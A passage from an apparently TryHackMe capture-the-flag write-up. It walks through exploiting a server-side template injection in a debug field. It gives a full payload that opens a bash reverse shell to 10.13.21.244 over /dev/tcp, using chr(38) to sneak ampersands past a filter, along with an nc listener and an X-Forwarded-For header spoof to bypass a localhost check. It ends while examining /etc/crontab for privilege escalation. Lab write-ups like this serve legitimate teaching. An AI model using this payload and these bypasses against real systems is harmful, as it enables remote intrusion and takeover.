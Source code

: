   - So now we replace all `&` with `config.__class__.__init__.__globals__["__builtins__"]["chr"](38)`, now our payload will be like this
 ```python
{{config.__class__.__init__.__globals__["os"].popen("bash -c \"bash -i >" + config.__class__.__init__.__globals__["__builtins__"]["chr"](38) + " /dev/tcp/10.13.21.244/5000 0>" + config.__class__.__init__.__globals__["__builtins__"]["chr"](38) + "1\"")}}
```
  - This is our custom crafted payload!
- Now put our payload into the debug field with password and submit!
- It should say `Executed`, once then you have to open `/debugresult` in order to make that payload actually run, as `/debug` only caches it in session.
- Make sure to use your **THM VPN IP** or if it's from attackbox then use your box IP in that payload
- Listen to the port you like, as follows `nc -lnvp 5000`, once you open the page you will see an `Unauthorized` error! with this specific description `Everything made in home, we don't like intruders.` sounds funny but interesting! it says it's made in **home**! does that relate to you in anyway? OFC! it's **localhost**! more precisely it's `127.0.0.1`! that is the real hacker's home! searching for spoofing IP in HTTP request you will find multiple ways, you can try all and you will find (and it's common) that it's the `X-Forward-For` HTTP Header that allows you to bypass this restriction! simply add that to your burp request header in burp repeater or any other way you like
```python
X-Forwarded-For: 127.0.0.1
```
- Now you have access to the `/debugresult` page! NOICE!
- Now you should also get your `ayham` user shell!
- 🚀 From there you will first find `flag1.txt` in `/home/ayham/`. **GG**!
- Now let's find `flag2.txt`
- Going to the root path `/` you will find `secret-tip.txt` it contains a hint about something missing 2 of something, this might confuse you but it's not yet related to the current progress, we'll get back to it.
- Searching for way to privesc to root, you will find MANY, one of the good places to search for system possible weaknesses is **cronjobs**! let's see `/etc/crontab/`(an extra advice but probably not very much needed here is the [LinEnum](https://github.com/rebootuser/LinEnum/blob/master/LinEnum.sh) tool, it's just amazing!)
```python
# /etc/crontab: system-wide crontab
# Unlike any other crontab you don't have to run the `crontab'
# command to install the new version when you edit this file
# and files in /etc/cron.d. These files also have username fields,
# that none of the other crontabs do.

SHELL=/bin/sh
PATH=/usr/local/sbin:/usr/local/bin:/sbin:/bin:/usr/sbin:/usr/bin

# Example of job definition:
# .---------------- minute (0 - 59)
# |  .------------- hour (0 - 23)
# |  |  .---------- day of month (1 - 31)
# |  |  |  .------- month (1 - 12) OR jan,feb,mar,apr ...
# |  |  |  |  .---- day of week (0 - 6) (Sunday=0 or 7) OR sun,mon,tue,wed,thu,fri,sat
# |  |  |  |  |
# *  *  *  *  * user-name command to be executed
17 *    * * *   root    cd / && run-parts --report /etc/cron.hourly
25 6    * * *   root    test -x /usr/sbin/anacron || { cd / && run-parts --report /etc/cron.daily; }
47 6    * * 7   root    test -x /usr/sbin/anacron || { cd / && run-parts --report /etc/cron.weekly; }
52 6    1 * *   root    test -x /usr/sbin/anacron || { cd / && run-parts --report /etc/cron.monthly; }
*  *    * * *   root    curl -K /home/F30s/site_check
*  *    * * *   F30s    bash -lc 'cat /home/F30s/health_check'
```
- You see we have 2 user created jobs running, one by **root** and another by **F30s** (another normal user)